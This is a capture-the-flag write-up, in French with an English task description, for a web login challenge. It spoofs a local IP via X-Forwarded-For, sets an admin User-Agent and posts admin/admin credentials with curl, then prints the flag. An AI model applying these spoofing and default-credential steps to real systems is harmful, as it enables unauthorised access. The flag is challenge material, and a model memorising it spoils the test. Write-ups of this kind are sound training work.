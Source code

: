 # Connect You 🌐
```
70 pts
```

## Description
```
[FR]
On ne sait rien d'autres, mais on doit se connecter en tant qu'admin pour récupérer un ancien trésor.

[EN]
We don't know anything else, but we have to log in as admin to recover an ancient treasure.
Author: 5c0r7

http://ctf.hackerlab.bj:1022
```
> Lorsque nous nous rendons sur le lien du challenge, un message apparaît disant "I don't like this REQUEST_METHOD". Nous avons donc décidé de modifier la méthode de la requête.
 ```curl -X POST http://ctf.hackerlab.bj:1022/```

> Après avoir changé la méthode de la requête, un autre message s'affiche "I don't know your IP address". Nous avons utilisé l'en-tête HTTP "X-Forwarded-For", qui permet d'identifier l'adresse IP d'origine d'un client.
> ```curl -X POST http://ctf.hackerlab.bj:1022/ -H 'X-Forwarded-For:127.0.0.1'```

> Ensuite, nous recevons le message "I only accept admin user-agent". Nous avons alors modifié le user-agent. ```curl -X POST http://ctf.hackerlab.bj:1022/ -H 'X-Forwarded-For:127.0.0.1' -H 'User-Agent:admin'```
 
> 😩 Malgré la modification de l'user-agent, nous obtenons toujours un message disant "I don't see any username or password to perform authentication", qui demande un nom d'utilisateur et un mot de passe.

> Après avoir ajouté ces informations, nous obtenons le flag! 😮‍💨 ```curl -X POST http://ctf.hackerlab.bj:1022/ -H 'X-Forwarded-For:127.0.0.1' -H 'User-Agent:admin' -d 'username=admin&password=admin'```

# Flag
```Congratz, Here is your flag: CTF_S0mE_b@s!c_bAs3d_4uThen7iF1(at!0n_hehehehe```

